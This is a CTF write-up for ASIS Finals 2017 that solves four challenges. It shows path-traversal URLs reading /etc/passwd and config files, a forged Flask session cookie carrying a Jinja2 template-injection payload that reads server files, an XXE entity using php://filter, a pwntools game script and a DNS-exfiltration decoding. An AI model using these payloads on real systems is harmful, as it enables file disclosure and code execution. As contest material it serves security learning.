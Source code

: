 # ASIS-FINALS-2017
Task name : Golem is stupid <br>
Category : Web <br>

Description :  Golem is an animated anthropomorphic being that is magically created entirely from inanimate matter, but Golem is stupid! <br>
<br>

tldr ; SSTI to get RCE in flask session token <br>

Challenge : <br>
first could find obvious LFI  https://golem.asisctf.com/article?name=../../../etc/passwd  and leak etc/passwd <br>
Trying leak other files gave us important infos : https://golem.asisctf.com/article?name=../../../../proc/self/cmdline <br>

https://golem.asisctf.com/article?name=../../../../../../etc/uwsgi/apps-enabled/golem_proj.ini was showing main script path file <br>

leaking that we can see that all parameters are kind of sanitized except token, which was then printed , looks like server side template injection<br>
All I had to do is create local flask app, forge my token using the key which was in the python file with payload, and send it to the application<br><br>

Payload : <br>
```
#creatig payload
from flask import Flask, session

app = Flask(__name__)

@app.route('/')
def run():
    session['golem'] = '{{ \'\'.__class__.__mro__[2].__subclasses__()[40](\'/opt/serverPython/golem/flag.py\').read() }}'
    return 'ok'
    

if __name__ == '__main__':
    app.secret_key = '7h15_5h0uld_b3_r34lly_53cur3d'
    app.run(host='127.0.0.1', port=2222, debug=True)
--------------------------------------------------------------------------------------------------------------------

#exploiting 
import requests

cookies={'session':'.eJwlyU0LgjAYAOC_Eu-5w9SCNugUOJl6iGgub21-QG4Z6Aab-N8zuj7PAv2oWwNkgZ0EAm0y9cwrKyL8kjQNKsJdoXEnBXObyVKj34WmYv-PeRDRacz5hMoUjcxjp7Kr29w3hvt7ptGTYlvEjZOUz0VcT49KWZUN7_x29HWVDvll6DuBzrDuYTYfIIdk_QL3ADJC.DJSUXQ.0_cgqMpbS89-sLEX2HaJRslq73I'}


r=requests.post('https://golem.asisctf.com/golem',cookies=cookies)

print r.text
```

<br>
Response contained flag : ASIS{I_L0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}


<br><br>
<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
<br><br><br>

Task name :  GSA File Server  <br>
Category : Web <br>

Description :  GSA's file server, go find the hole, drill it and grab the flag :)
Note that Scope is 128.199.40.185:* <br>
<br>

tldr ; Exploit XXE and Use a directory listing vuln to read flag<br>

Challenge : <br>
First find :http://128.199.40.185/showFiles was vuln to directory listing<br>
Second find : http://128.199.40.185:8081/panelManager-0.1/ XXE injection in docx file <br>
the solution was to download their doc file called (demo) open with archive and change inner xml (word/document.xml) with an xxe  php filter was working <br>
```<!DOCTYPE roottag [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=../../../../fileSharing/s3cRetP4th/flagIsHeregRabiT.flag"> ]>```<br>
<br> the directory of the flag was found using the first vuln <br>
Flag : ASIS{Vuln_web_appZ_plus_misc0nfig_eQ_dis4st3R!}
<br><br>
<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
<br><br><br>
Task name :   Chaoyang District   <br>
Category : PPC <br>
Description :  This is an AI programming challenge, so binary is not required to be provided. <br>
tldr ; play one game to generate sequence of winning moves, repeat same sequences 50 times ;) <br>
Challenge : <br>
Challenge was Reversi game vs an AI, the problem was that the same game was repeated, and the AI did same moves, so we need to win just one game, store the moves that we used and repeat for all games <br>

```
from pwn import *

nc = remote("178.62.22.245",32145)
for z in range(0, 50):
    print "[-]", z
    seq = ['e3', 'c5', 'b5', 'g3', 'b3', 'a5', 'b7', 'a7', 'd7', 'e6', 'a4', 'a8', 'e1', 'b1', 'g8', 'c8', 'g5', 'h2',
           'g1', 'h6', 'g7', 'h7', 'd8', 'c1', 'e8', 'a2', 'h3', 'h5']
    for i in range(0, len(seq)):
        m = scan_net_boards(nc)
        print m
        nc.writeline(seq[i])

nc.interactive()
```

<br>
Flag : ASIS{Th3_Bra1n_Wash1nG_HAHA_AI_IS_INTERESTING}
<br><br>
<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
<br><br>
Task name :   Vivid Spying   <br>
Category : Networking <br>
Description :      We have captured the spy traffic by our agents, hurry up and find the flag. : <br>
Challenge : <br> 
The challenge provided a DNS capture, after analyzing it for a bit we can extract some prefix in a domain name asisctf.com<br>
10.111110100001001111101011001010011100100010001011111010000101100.010111010010110111011101111101011100110011101101001011010011110.000011101100101011111010110111101100101010010010110010101000001.asisctf.com <br>
Cleaning that prefix from dots and reading it right to right didn't give printable string <br>
after adding a zero it becomes : 010000010101001101001001010100110111101101011111010100110111000001111001011010010110111001100111010111110111011101101001011101000110100001011111010001000100111001010011010111110010000101111101 <br>
bin to ascii => ASIS{_Spying_with_DNS_!} 

